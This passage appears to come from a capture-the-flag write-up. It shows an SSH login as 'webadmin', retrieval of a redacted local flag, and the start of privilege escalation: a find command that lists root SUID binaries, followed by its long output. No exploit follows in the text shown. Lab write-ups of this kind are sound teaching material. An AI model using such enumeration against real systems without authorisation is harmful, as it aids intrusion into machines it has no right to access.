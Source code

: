 The username and password combination was successful in logging into the ssh service.
In the home directory of the `webadmin` user was a flag called `local.txt`.

```text
webadmin@serv:~$ cat local.txt
[[ REDACTED ]]
```


### Privilege Escalation {#privilege-escalation}

The next step was to try to gain privilege escalation to the root user.
Sometimes there can be issues with the `SUID` permission on some executable files that can allow for unintended root access.
Scanning for this vulnerability is done with the `find` command.

```text
webadmin@serv:/notes$   find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 55528 Apr  2  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 166056 Feb  3  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 88464 Apr 16  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 Apr  2  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 85064 Apr 16  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44784 Apr 16  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67816 Apr  2  2020 /usr/bin/su
-rwsr-xr-x 1 root root 53040 Apr 16  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 68208 Apr 16  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 473576 May 29  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 130152 Jul 10  2020 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 110792 Sep  4  2020 /snap/snapd/9279/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 110792 Jul 10  2020 /snap/snapd/8542/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /snap/core18/1885/bin/mount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /snap/core18/1885/bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /snap/core18/1885/bin/su
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /snap/core18/1885/bin/umount
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /snap/core18/1880/bin/mount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /snap/core18/1880/bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /snap/core18/1880/bin/su
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /snap/core18/1880/bin/umount
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /snap/core18/1880/usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /snap/core18/1880/usr/bin/chsh
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /snap/core18/1880/usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /snap/core18/1880/usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /snap/core18/1880/usr/bin/passwd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /snap/core18/1880/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 11  2020 /snap/core18/1880/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
